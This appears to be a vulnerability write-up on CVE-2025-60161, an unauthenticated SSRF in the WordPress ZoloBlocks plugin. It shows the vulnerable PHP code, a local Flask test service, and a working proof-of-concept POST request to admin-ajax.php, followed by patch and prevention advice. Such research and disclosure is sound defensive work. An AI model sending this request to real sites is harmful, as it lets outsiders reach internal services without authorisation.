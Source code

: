 ```yaml
---
title: CVE-2025-60161 Analysis & POC
description: Security Vulnerability in WordPress ZoloBlocks Plugin.
date: 2025-10-31 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, ssrf]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
    auto: false
---
```


<!--more-->

## CVE & Basic Info

A Server-Side Request Forgery (SSRF) vulnerability in BdThemes ZoloBlocks allows an attacker to make forged requests from the server. This issue affects ZoloBlocks versions from an unspecified initial version up to 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) and **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

The vulnerability existed in the file `TemplatesV1.php`, however this file was removed in the patched release.

![Diff](removed.png "TemplatesV1.php was removed in the patch")

### Vulnerable Code

```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Check input parameter from POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Retrieve and sanitize the user-provided URL
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Send an HTTP request to that URL
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // If there's an error when fetching data, return a JSON error
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Retrieve the response body and decode the JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Return a successful JSON response including the imported content
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
The `demo_import()` function accepts a URL from the user → issues an HTTP request (`wp_remote_get`) to fetch JSON → decodes it and returns the result via `wp_send_json_success()`.
Because it does not validate or restrict the URL, it can be abused to cause **SSRF**.
{{< /admonition >}}

The `demo_import()` function is registered as a callback for an action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

This means:

* The `wp_ajax_nopriv_` hook is used for **unauthenticated users** (anonymous users).
* When a client sends an AJAX request to the endpoint `admin-ajax.php?action=zolo_demo_import`, WordPress will invoke the `demo_import()` function.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def test():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Send a POST request with the URL pointing to the local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Content read from the local service")

## Conclusion

CVE-2025-60161 is an SSRF in `demo_import()` of ZoloBlocks (≤ 2.3.11) caused by accepting a user-supplied URL and calling `wp_remote_get()` without validation. The endpoint allows unauthenticated access (`wp_ajax_nopriv_...`). The issue has been patched in **2.3.12**.

## Key takeaways

* Root cause: not validating/whitelisting the URL before calling `wp_remote_get()`.
* Impact: sites running ZoloBlocks ≤ 2.3.11; an attacker can query internal services (SSRF).
* Quick mitigation: update to **2.3.12** or block the `zolo_demo_import` endpoint.
* Prevention: whitelist/validate URLs, limit egress, protect AJAX actions with nonces/permissions.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve)
